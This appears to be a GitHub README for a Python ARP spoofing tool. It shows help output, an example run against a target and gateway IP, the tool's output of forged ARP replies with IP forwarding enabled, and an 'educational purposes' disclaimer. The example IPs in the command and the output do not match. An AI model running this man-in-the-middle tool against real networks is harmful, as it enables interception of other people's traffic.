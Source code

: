 # ARP Spoofer
Python 3.9+ is required, tested on Kali Linux.

## Example Usage
```shell
python3 arpspoof.py -h
usage: spoof.py [-h] [--verbose] target gateway

positional arguments:
  target      Please specify target IP address
  gateway     Please specify default gateway IP address

optional arguments:
  -h, --help  show this help message and exit
  --verbose
```

```shell
python3 arpspoof.py 192.168.0.17 192.168.0.1

Output

[+] Enabling IP forwarding.
[+] IP forwarding enabled.
[+] Sent to 192.168.43.155 : 192.168.43.1 is at 00:0c:29:bf:00:3f
[+] Sent to 192.168.43.1 : 192.168.43.155 is at 00:0c:29:bf:00:3f

```

## Disclaimer
All information and software available in this probject are for educational purposes only. Use these at your own discretion, the author cannot be held responsible for any damages caused. Usage of these tools for attacking targets without prior mutual consent is illegal.